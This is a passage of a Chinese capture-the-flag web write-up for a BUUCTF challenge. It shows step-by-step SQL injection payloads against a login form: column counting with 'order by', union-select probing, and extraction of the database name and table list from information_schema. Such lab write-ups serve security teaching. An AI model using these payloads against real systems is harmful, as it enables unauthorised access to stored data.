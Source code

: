 还是得注入

```mysql
username=admin' order by 3%23&password=1
```

没变化

```mysql
username=admin' order by 4%23&password=1
```

报错没有该列

![image-20200924182738593](BUUCTF——Web.assets/image-20200924182738593.png)

开始正常的注入

```mysql
username=-1' union select 1,2,3%23&password=1
```

![image-20200924182950070](BUUCTF——Web.assets/image-20200924182950070.png)

注入点在2,3  `接下来的注入省略前半和后半部分`

```mysql
-1' union select 1,database(),3%23
```

![image-20200924183112263](BUUCTF——Web.assets/image-20200924183112263.png)

```mysql
-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='geek'),3%23
```

![image-20200924183914057](BUUCTF——Web.assets/image-20200924183914057.png)
